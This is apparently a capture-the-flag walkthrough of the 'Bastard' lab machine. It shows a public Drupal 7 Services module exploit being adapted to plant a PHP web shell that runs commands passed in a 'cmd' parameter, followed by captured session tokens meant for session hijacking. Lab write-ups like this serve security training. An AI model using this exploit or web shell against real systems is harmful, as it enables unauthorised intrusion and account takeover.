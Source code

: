 ```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Bastard]─[root@Arthorias]─[0]─[2508]
╰─[:)] # searchsploit drupal
Drupal 7.x Module Services - Remote Code Execution  |  exploits/php/webapps/41564.php
```  

Our search yields several results, among them we managed to identify an exploit that when used successfully an attacker can execute remote code on the victim.
I won’t go in depth on how this exploit works, but the [cliff-notes](https://www.ambionics.io/blog/drupal-services-module-rce) are that it attacks a REST endpoint created by the services extension. To exploit we just need to find out the name of the REST endpoint. Honestly, exploiting this is simply a case of reading the exploit and the attached write-up.  
We need to manually edit this exploit which is written in PHP.  
First install php-curl and we copy the exploit to our route.  

```shell
cp /usr/share/exploitdb/exploits/php/webapps/41564.php ./
apt-get install php-curl
```
There are about 3 lines that need to be corrected before you can run the script.  
You will see that there is comment sign missing (#). You will have to enter the IP (host) as change the endpoint_path to “/rest” as well. If you are asking yourself what this /rest or endpoint_path does, you should read the exploit explanation in the following [link](https://www.ambionics.io/blog/drupal-services-module-rce). DIRB has found many subfolders and /Rest was one of them and is fitting into the scheme.
The script of PHP should look like this:  

```php
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'Gerh.php', /* Indicamos el nombre de nuestro archivo a crear. */
    'data' => '<?php echo(system($_GET["cmd"])); ?>' /* Indicamos que el contenido que tendra el archivo anterior; El parametro CMD nos ayudara a ejecutar comandos sobre nuestro equipo victima */
];
```

After the execution of the exploit, we are exported the following files:  

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4401]
╰─[:)] # ls -la
total 292K
drwxr-xr-x 4 root root 4.0K Apr 17 03:11 .
drwxr-xr-x 8 root root 4.0K Apr 13 15:23 ..
-rwxr-xr-x 1 root root 8.8K Apr 17 02:47 41564.php
-rw-r--r-- 1 root root 1.1K Mar 30 04:48 Bastard.nmap
-rw-r--r-- 1 root root  187 Apr 17 02:48 session.json
-rw-r--r-- 1 root root  799 Apr 17 02:48 user.json
```
The **sessions.json** file will help us to perform Session Hijacking.  

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4404]
╰─[:)] # cat session.json
{
    "session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
    "session_id": "xya-3zwiiR560VcO0uua4q6bP_-Otc8mTV1C27s0ebk",
    "token": "2dCM4IsWC26XnZkkofSjzmx1Dc6INTn3usnqNEb2fuI"
} 
```
